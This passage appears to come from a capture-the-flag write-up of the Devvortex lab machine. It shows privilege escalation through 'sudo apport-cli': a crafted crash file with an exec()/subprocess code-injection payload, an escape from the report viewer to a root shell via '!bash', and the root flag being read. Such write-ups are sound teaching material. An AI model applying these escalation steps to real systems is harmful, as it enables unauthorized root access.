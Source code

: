 ```bash
logan@devvortex:~$ vim ./test.crash
logan@devvortex:~$ sudo apport-cli -c ./test.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

```

Choosing option `V` opens the log in the `apport-cli` viewer, which seems to just be Vim or something (this is Ubuntu/GNOME-specific and I don't really know what Apport is - I use Arch btw). We can invoke a `root` shell with `!bash` and then `cat` out the second flag at `/root/root.txt`:

```bash
== CrashDB =================================
{'impl': 'memory', 'crash_config': exec("""
import subprocess
payload_cmd = "pkill -9 apport; gnome-calculator"
subprocess.Popen(payload_cmd, shell=True)
""", {}) }

== ExecutablePath =================================
/usr/bin/file-roller

== ProblemType =================================
Bug

== Stacktrace =================================
None

== UnreportableReason =================================
A package hook defines an invalid crash database definition:
{'impl': 'memory', 'crash_config': exec("""
import subprocess
payload_cmd = "pkill -9 apport; gnome-calculator"
subprocess.Popen(payload_cmd, shell=True)
""", {}) }
!bash
```

```bash
*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# cat /root/root.txt
b60647d85778b3db2521377e8ee9038d
```
